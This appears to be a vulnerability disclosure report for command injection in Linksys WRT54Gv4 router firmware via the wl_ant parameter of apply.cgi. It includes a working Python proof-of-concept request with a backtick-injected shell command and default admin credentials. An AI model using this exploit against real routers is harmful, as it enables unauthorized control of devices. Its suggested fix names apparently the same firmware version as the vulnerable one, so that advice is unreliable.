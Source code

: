 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **wl_ant**  passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = f"http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": f"http://{ip}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "`touch 1.txt`",
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image](https://github.com/user-attachments/assets/702617ff-8bec-4eb0-b580-4d4b2ebde5d8)

![image](https://github.com/user-attachments/assets/21ca4de6-052a-4d58-ab08-c2b984e23fd8)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

